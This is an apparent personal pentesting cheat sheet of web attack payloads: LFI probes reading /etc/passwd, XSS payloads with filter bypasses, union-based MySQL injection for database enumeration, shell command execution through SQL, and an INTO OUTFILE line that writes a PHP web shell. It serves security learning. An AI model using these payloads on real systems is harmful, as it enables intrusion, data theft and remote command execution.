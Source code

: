 # Exploitation
Tools and options I use for reconnaissance:
- [Web](#web)
  - [Shell](#shell)
  - [LFI](#lfi)
  - [XSS](#xss)
  - [SQL Injection](#sql-injection)

----

## Web
Techniques and tools I use for web exploitations.

### Shell
Usefull webshells on Kali: `/usr/share/webshells/`

### LFI 
###### LFI = Local File Inclusion.  

Example scenario:   
```bash
http://<target>/index.php?parameter=value
```

Validate LFI:   
```bash
http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index
# OR
http://<target>/index.php?page=../../../../../../../../etc/passwd
```

Useful links:   
- [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)
- [Seclist LFI intruder](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)


### XSS
Verify XSS:  
```javascript
<script>alert('XSS')</script>

//OR
"><script>alert('XSS')</script>">

//OR
<script>alert(String.fromCharCode(88,83,83))</script>
```

Bypass filter of tag script:   
```javascript
" onload="alert(String.fromCharCode(88,83,83))

//OR
" onload="alert('XSS')
```

**nope** is not a valid image source, so this cause an error an triggers the `onerror`.
```javascript
<img src='nope' onerror=alert("XSS")>
```

Useful links:  
- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [Seclist XSS](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS)


### SQL Injection
###### All examples are with MySQL syntax!
Verify SQL injection: add a simple quote`'`. 
```bash
# Examples
http://target.com/path/?id=5'
```

Sorting columns to find maximum column:
```bash
http://target.com/path/?id=-1 order by 1
http://target.com/path/?id=-1 order by 2
http://target.com/path/?id=-1 order by 3
http://target.com/path/?id=-1 order by 4
# ...
# Try until it stops returing errors, now we have the column count
```

Verify injectable column:  
```bash
http://target.com/path/?id=-1 union select 1, 2, 3, 4
# Select count is depending on the table, maybe try the previous example
# One of the columns will be printed with the respective number
```

Discover various informations:  
```bash
# Discover version
http://target.com/path/?id=-1 union select 1, 2, 3, version()

# Discover database name
http://target.com/path/?id=-1 union select 1, 2, 3, database()

# Discover logged in usernames
http://target.com/path/?id=-1 union select 1, 2, 3, current_user()

# Discover databases
http://target.com/path/?id=-1 union select 1, 2, 3, schema_name from information_schema.schemata

# Discover table names of database
http://target.com/path/?id=-1 union select 1, 2, 3, table_name from information_schema.tables where table_schema="database_name"

# Discover columns of database
http://target.com/path/?id=-1 union select 1, 2, 3, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"
```

Execute shell commands:
```sql
# Example usage
SELECT trim(trailing char(0x00) from exec_cmd("echo 'Hello World'"));

# Decode base64 string and write to file
SELECT trim(trailing char(0x00) from exec_cmd("echo 'SGVsbG8gV29ybGQK' | base64 -d >> /tmp/test.txt"));
```

Create a web shell:
```sql
SELECT "<?php system($_GET['c']); ?>" into outfile "/var/www/html/shell.php"
```
